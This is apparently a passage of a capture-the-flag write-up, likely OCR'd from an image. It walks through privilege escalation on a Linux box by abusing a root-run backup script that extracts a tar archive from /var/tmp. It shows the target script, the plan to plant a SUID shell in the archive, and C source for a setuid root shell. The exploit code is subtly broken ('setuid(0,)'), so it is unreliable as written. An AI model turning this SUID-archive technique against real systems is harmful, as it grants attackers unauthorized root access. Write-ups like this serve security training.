 ```bash
# Backup onuma website dev files. 
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

#sudo tar -zcvf /var/tmp/.$RAND_FILE /var/www/html & 

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir  
}

/bin/mkdir $check
#now extracting
#tar -xzvf /var/tmp/.$RAND -C NEWFILE=/var/tmp/check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi

```

What the program does:

- backs up everything from /var/www/html and create a new tar in /var/tmp/.$RandSHA1
- sleep for 30 seconds
- extract everything from the /var/tmp/.$RandSHA1 file to /var/tmp/check
- if the file structure of /var/www/html and /var/tmp/check/var/www/html is different, print error
- otherwise, clean up and save to a .bak file

So if we replace a our malicious /var/tmp/.$RandSHA1 with a SUID bash binary set, when the program extracts everything as root, we would have a SUID bash binary to execute. First let’s create our exploit. We first have to download gcc-multilib so we can compile 32-bit binary:

```bash
sudo apt install gcc-multilib
```

Now our SUID exploit:

```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main (void) {

	setuid(0,); setgid(0); system("/bin/sh");

}
```
